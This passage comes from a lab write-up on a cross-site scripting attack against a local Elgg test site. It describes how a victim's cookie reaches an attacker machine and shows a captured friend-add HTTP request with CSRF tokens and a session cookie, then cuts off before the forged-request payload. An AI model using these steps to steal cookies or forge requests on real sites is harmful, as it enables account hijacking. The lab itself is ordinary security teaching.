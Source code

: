 Once visiting the profile page ( http://www.xsslabelgg.com/profile/alice) from VM 10.0.2.4, then it will appear on the attacker:


![alt text](https://github.com/RubiaQayoum/Cross-Site-Scripting-Attack/blob/main/cookie_port.png)



#Task 4

Try to log in as alice and add samy as a friend, during the process, network tool captures the request:

HTTP header:

```
Request URL: http://www.xsslabelgg.com/action/friends/add?friend=47&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ
GET /action/friends/add?friend=47&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ HTTP/1.1
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/samy
X-Requested-With: XMLHttpRequest
Cookie: Elgg=5tqs9f0im6vp35cr2cva0lpvp4
Connection: keep-alive
```
So construct the payload that forges the user's friend request as:

